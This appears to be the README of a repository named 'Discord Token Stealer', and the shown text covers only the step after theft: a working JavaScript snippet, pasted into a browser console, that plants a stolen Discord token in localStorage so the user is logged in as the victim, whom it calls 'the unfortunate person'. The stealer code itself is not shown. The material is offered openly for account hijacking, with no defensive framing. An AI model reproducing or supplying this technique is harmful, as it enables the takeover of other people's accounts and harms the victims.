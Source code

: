 # Discord Token Stealer
## How to log-in a token:
If you don't know already, here's how you can log in Discord via token (browser only):
1. Press F12 or open Developer tools and go to console.
2. Copy paste this javascript function to the console (yeah, copypaste the entire thing).
```js
function login(token) 
{ 
    setInterval(() => 
    { 
        document.body.appendChild(document.createElement `iframe`)
        .contentWindow.localStorage.token = `"${token}"` 
    }
    , 50); 

    setTimeout(() => { location.reload(); }, 1000); 
}
```
3. Now on the same console, do ```login("[TOKEN HERE]")```, wait until the window refreshes or refresh it yourself.

Ta-da, you're now logged in as the unfortunate person.